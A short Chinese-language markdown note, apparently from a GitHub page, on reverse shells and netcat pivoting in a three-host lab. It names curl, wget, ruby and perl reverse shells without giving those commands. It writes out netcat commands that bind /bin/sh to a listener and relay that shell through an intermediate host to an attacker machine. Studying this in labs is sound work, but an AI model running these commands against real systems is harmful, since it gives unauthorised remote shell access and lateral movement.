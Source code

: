 ### curl反弹shell

原理是利用bash来反弹shell
想要了解自行百度
ctf用到过

### wget反弹shell(同上)

### 还有其他的反弹shell(比如ruby，perl等等)

##  netcat内网代理实践

环境
kali：192.168.1.1
ubuntu18：192.168.1.2
ubuntu16：192.168.1.3
kali可与ubuntu18互通，但是不能与ubuntu16互通，ubuntu18可与ubuntu16互通。
服务器kali
nc -lvp 23333
ubuntu16
nc -lvp 23333 -e /bin/sh(交出自己的shell)
ubuntu18
nc -v 192.168.1.3 23333 -c "nc -v 192.168.1.1 23333"(拿到ubuntu16的shell，然后通过nc代理到kali上)